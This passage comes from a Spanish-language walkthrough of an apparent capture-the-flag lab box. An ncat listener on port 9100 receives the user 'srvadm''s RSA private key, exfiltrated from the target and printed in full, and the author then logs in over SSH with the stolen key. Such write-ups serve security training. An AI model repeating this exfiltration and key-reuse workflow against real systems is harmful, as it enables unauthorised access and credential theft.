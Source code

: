 
Recibimos con exito la clave `id_rsa` del usuario `srvadm`

```bash
❯ ncat -nlvp 9100
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9100
Ncat: Listening on 0.0.0.0:9100
Ncat: Connection from 10.10.10.186.
Ncat: Connection from 10.10.10.186:44256.
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
VA#            
```


Ahora nos conectamos como el usario `srvadm`.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa srvadm@10.10.10.186
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun 17 01:32:15 UTC 2023

  System load:  0.18              Users logged in:                0
  Usage of /:   73.4% of 7.75GB   IP address for ens33:           10.10.10.186
  Memory usage: 17%               IP address for docker0:         172.17.0.1
  Swap usage:   0%                IP address for br-9ef1bb2e82cd: 172.18.0.1
  Processes:    191


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

52 packages can be updated.
```